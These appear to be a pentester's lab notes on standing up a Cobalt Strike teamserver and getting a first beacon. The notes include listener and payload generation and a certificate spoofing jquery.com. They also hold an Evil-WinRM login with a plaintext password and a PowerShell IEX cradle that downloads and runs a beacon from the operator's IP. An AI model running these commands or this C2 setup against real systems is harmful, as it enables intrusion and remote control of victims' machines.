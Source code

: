 ### Teamserver setup
#cobalstrike #teamserver
```bash
┌──(kali㉿gobots)-[14Jun2024 16:42:32]-[/opt/cobaltstrike]
└─$ sudo ./teamserver 10.10.14.39 'passphrase' /opt/internal/PwnLibrary/custom-cobalt/Profiles/custom.profile

[*] Checking TeamServerImage for local update
[*] Verifying MD5 Message Digest for TeamServerImage
TeamServerImage: OK
[*] Will use existing X509 certificate and keystore (for SSL)
[*] Starting teamserver
[*] Team Server Version: 4.9.1 Licensed
[*] Setting 'https.protocols' system property: SSLv3,SSLv2Hello,TLSv1,TLSv1.1,TLSv1.2,TLSv1.3
[+] I see you're into threat replication. /opt/internal/PwnLibrary/custom-cobalt/Profiles/custom.profile loaded.
[*] Loading keystrokes.
[*] Loaded 0 keystrokes.
[*] Loading screenshots.
[*] Loaded 0 screenshots.
[*] Loading downloads.
[*] Loaded 0 downloads.
[*] Loading Windows error codes.
[*] Windows error codes loaded
[*] Loading hosted files
[*] Loaded 0 servers with hosted items
[*] Loading beacons
[*] Loaded 0 beacons
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: 8816b2a754254578d05cfa552b67f20460df96152342e5b99416694ec3709e80
[*] Team server license expires 2024-10-31.
[*] Generating Payload: http -- Type: HTTP -- Arch: x86 -- Exit Function: Process -- System Call: None -- HTTP Library: wininet
[*] Generating Payload: http -- Type: HTTP -- Arch: x64 -- Exit Function: Process -- System Call: None -- HTTP Library: wininet
[+] Listener: http started!
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 365 days
        for: CN=jquery.com, OU=Certificate Authority, O=jQuery, L=, ST=, C=US
[*] Web Server will use user-specified SSL certifcate
[*] Generating Payload: https -- Type: HTTP -- Arch: x86 -- Exit Function: Process -- System Call: None -- HTTP Library: wininet
[*] Generating Payload: https -- Type: HTTP -- Arch: x64 -- Exit Function: Process -- System Call: None -- HTTP Library: wininet
[+] Listener: https started!
```
### Starting cobaltstrike server
#cobalstrike 
```bash
┌──(kali㉿gobots)-[14Jun2024 16:42:53]-[/opt/cobaltstrike]                                                                                                                                                   
└─$ sudo ./cobaltstrike    
```
#### Setup Listeners
#cobaltstrike #listeners
![[Pasted image 20240614125352.png]]
#### Generating Payloads
#cobalstrike #payloads 
![[Pasted image 20240614125517.png]]
##### Scripted Web Delivery Service
#cobalstrike 
![[Pasted image 20240614130355.png]]
##### Evil-WinRM login
#cobalstrike #evil-winrm 
```bash
proxychains evil-winrm  -i 172.16.0.2 -u calde_ldap -p 'CsAdlLDAPMoDeBrnd12!' 
```
##### Beacon
#cobalstrike #beacon 
```bash
*Evil-WinRM* PS C:\Users\calde_ldap\Documents> IEX ((new-object net.webclient).downloadstring('http://10.10.14.39:80/hacker'))
```
##### Initial Beacon
#cobaltstrike 
![[Pasted image 20240614130710.png]]

